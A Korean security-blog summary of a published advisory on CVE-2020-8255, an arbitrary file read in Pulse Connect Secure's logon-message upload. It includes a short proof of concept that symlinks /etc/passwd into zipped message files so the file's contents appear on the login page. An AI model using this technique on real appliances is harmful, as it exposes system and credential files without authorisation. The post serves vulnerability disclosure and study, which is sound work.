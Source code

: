 ```yaml
---
title: "[하루한줄] Technical Advisory: Pulse Connect Secure – Arbitrary File Read via Logon Message"
author: L0ch
tags: [L0ch, arbitrary file read, cve]
categories: [1day1line]
date: 2020-10-27 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL
[Technical Advisory: Pulse Connect Secure – Arbitrary File Read via Logon Message (CVE-2020-8255)](https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-arbitrary-file-read-via-logon-message-cve-2020-8255/)



## Target
Pulse Connect Secure



## Explain
SSL VPN 서비스인 Pulse Connect Secure에서 로그온 메시지 구성 요소를 악용해 arbitrary file read가 가능한 취약점이 발견되었습니다.

관리자는 로그인 시 출력되는 메시지를 `/dana-admin/auth/signinNotf.cgi` 페이지를 통해 설정할 수 있는데, `en.txt` 및 `default.txt` 파일로 구성된 zip 형식의 파일을 업로드하면 해당 파일의 내용이 로그온 메시지로 표시됩니다.

이때 zip 파일에 포함된 파일의 심볼릭 링크 여부를 확인하지 않으며 read 할 파일을 심볼릭 링크로 설정하는 arbitrary file read가 가능합니다.

다음은 `/etc/passwd` 파일을 출력하는 POC입니다.

```
ln -s /etc/passwd default.txt
ln -s /etc/passwd en.txt

zip --symlinks logon.zip default.txt en.txt
adding: default.txt (stored 0%)
adding: en.txt (stored 0%)
```

위와 같이 파일에 심볼릭 링크를 설정해 zip으로 압축한 뒤 `/dana-admin/auth/signinNotf.cgi` 페이지에 업로드하면 로그온 페이지에 `/etc/passwd`의 내용이 표시됩니다.
